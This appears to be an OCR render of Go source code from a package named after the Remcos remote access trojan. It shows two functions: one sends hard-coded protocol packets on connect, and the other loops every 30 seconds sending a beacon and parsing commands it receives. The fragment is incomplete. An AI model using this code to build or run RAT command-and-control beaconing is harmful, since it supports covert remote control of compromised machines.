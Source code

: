     package remcos_xx  
      
    import (  
     "encoding/hex"  
     "fmt"  
     "net"  
    )  
      
    func Initconnect(conn net.Conn) {  
     sendbuf, _ := hex.DecodeString("01000000307c1e1e1f7c3330")  
     Sendbuf(conn, sendbuf)  
      
     _, err := RecvBuf(conn)  
     if err != nil {  
      fmt.Println(err.Error())  
      panic(0)  
     }  
      
     sendbuf, _ = hex.DecodeString("11000000")  
     Sendbuf(conn, sendbuf)  
      
     _, err = RecvBuf(conn)  
     if err != nil {  
      fmt.Println(err.Error())  
      panic(0)  
     }  
    }  
    

  * remcos_xx/heartbeat.go

    
    
    package remcos_xx  
      
    import (  
     "encoding/hex"  
     "fmt"  
     "net"  
     "time"  
    )  
      
    func Heartbeat(conn net.Conn) {  
     for {  
      sendbuf, _ := hex.DecodeString("01000000307c1e1e1f7c3330")  
      Sendbuf(conn, sendbuf)  
      
      recvdata, err := RecvBuf(conn)  
      if err != nil {  
       fmt.Println(err.Error())  
       panic(0)  
      }  
      ParseCommand(recvdata[:4])  
      time.Sleep(30 * time.Second)  
     }  
    }  
    